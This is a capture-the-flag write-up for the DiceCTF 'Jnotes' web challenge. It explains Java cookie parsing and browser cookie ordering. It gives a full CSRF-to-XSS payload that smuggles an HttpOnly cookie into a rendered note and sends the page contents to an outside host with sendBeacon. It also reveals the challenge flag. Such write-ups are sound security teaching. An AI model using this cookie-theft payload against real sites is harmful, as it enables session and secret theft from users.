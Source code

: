 # Jnotes

## Description

I made this note site before I learned about XSS... can you break it?

Thankfully my cookies are HttpOnly

- **Author** : arxenix
- **Category** : Web
- **Points** : 396
- **Solves** : 6


## Solution 

### Understanding the challenge

This was a java challenge where we can create notes and that notes will stored in cookies. We have setnote and getnote functions which will set the note in cookie and take the note from cookie

```java
    public static String getNote(Context ctx) {
        var note = ctx.cookie("note");
        if (note == null) {
            setNote(ctx, DEFAULT_NOTE);
            return DEFAULT_NOTE;
        }
        return URLDecoder.decode(note, StandardCharsets.UTF_8);
    }

    public static void setNote(Context ctx, String note) {
        note = URLEncoder.encode(note, StandardCharsets.UTF_8);
        ctx.cookie(new Cookie("note", note, "/", -1, false, 0, true));
    }
```

We also have a `/create` endpoint where we can set a new note

```java
app.post("/create", ctx -> {
            var note = ctx.formParam("note");
            setNote(ctx, note);
            ctx.redirect("/");
        });
```

The note is displayed on the home page without any filters so it's just plain XSS. The admin will also visit any page so we can get csrf and set a new note and get XSS on the admin side too. Till now everything is alright. The catch is that both the cookies are [HttpOnly](https://owasp.org/www-community/HttpOnly)

- So we can't access the cookies using JS
- There is no page displaying the flag cookie
- There is just home page which displays note cookie

### Java Cookie Parsing

Java Parse cookies weirdly. Maybe many other web servers too. Here this challenge uses [javalin](https://javalin.io/) which uses [jetty](https://www.eclipse.org/jetty/)

So when a cookie starts with a double quotes `"` and doesn't close it, it will go on and will take the value of that cookie until there is a closing double quotes.

So if we have three cookies

```
note="a
FLAG=flag{}
a=b"
```
Java will take the value of cookie `note` as `a; FLAG=flag{}; a=b`. Now we can use this to get the flag value into the note cookie and displaying it on the page. But we need to get the cookies in this order.

### Browser Cookie Parsing

Now some interesting facts about cookies in browsers that we use to solve this challenge

- We can create empty cookies using `document.cookies="=value"`

![empty](/dicectf23-writeups/jnotes/images/empty.png)

Now the cookie header will be sent like:

![header](/dicectf23-writeups/jnotes/images/empty-cookie-header.png)

Now, even if we can't create a new `note` cookie as its [HttpOnly](https://owasp.org/www-community/HttpOnly), we can create an empty cookie with value `note="` to bypass this

![cookie](/dicectf23-writeups/jnotes/images/note-cookie.png)

![note](/dicectf23-writeups/jnotes/images/cookie-note.png)

Now the header will be sent like this

![note-cookie-header](/dicectf23-writeups/jnotes/images/note-cookie-header.png)

Here the our `note` cookie is sent last. We need it to be the first cookie. So chrome basically orders cookies based on these rules. 

- Cookies with longer path are listed before cookies with shorter path.
- Cookies which are edited least recently are listed before cookies which are edited most recently.

I colud get these rules from [RFC-6265](https://www.rfc-editor.org/rfc/rfc6265#section-5.4)

```
 2.  The user agent SHOULD sort the cookie-list in the following
       order:

       *  Cookies with longer paths are listed before cookies with
          shorter paths.

       *  Among cookies that have equal-length path fields, cookies with
          earlier creation-times are listed before cookies with later
          creation-times.

       NOTE: Not all user agents sort the cookie-list in this order, but
       this order reflects common practice when this document was
       written, and, historically, there have been servers that
       (erroneously) depended on this order.
 ```


Here the `FLAG` cookie will be the first cookie as it is the least editted cookie and it has the longest path `/`. Now to make our cookie first, we can change the path of our `note` cookie to be `//` and increase the path length.

```js
document.cookie='=note=";path=//';
```

![cookie-path](/dicectf23-writeups/jnotes/images/cookie-path.png)

Now the textarea will have the flag value

![textarea](/dicectf23-writeups/jnotes/images/textarea.png)

Now we can just open an `iframe` with url `https://jnotes.mc.ax//` and get its content. 

```js
document.cookie='=note=";path=//';
const frame = document.createElement('iframe');
frame.src = "https://jnotes.mc.ax//";
document.body.appendChild(frame);
frame.onload = () => {
    navigator.sendBeacon("https://your.domain.com",frame.contentWindow.document.body.innerHTML);
}
```
We need to set this as admins `not` cookie. We can do that with [csrf](https://portswigger.net/web-security/csrf)

### Final Payload

```html
<html>
  <body>
    <form method="POST" action="https://jnotes.mc.ax/create">
      <input id="p" name="note" value="" >
    </form>
    <script>
      document.querySelector("#p").value = `</textarea>
      <\x73cript>
      document.cookie='=note=";path=//';
      const frame = document.createElement('iframe');
      frame.src = "https://jnotes.mc.ax//";
      document.body.appendChild(frame);
      frame.onload = () => {
        navigator.sendBeacon("https://your.domain.com",frame.contentWindow.document.body.innerHTML);
        }
      </\x73cript>`;
      document.forms[0].submit();
    </script>
  </body>
</html>
```

**Flag**: `dice{c0ok1e_m0nSt3r_1s_jeal0us_of_y0ur_sk1lLs}`
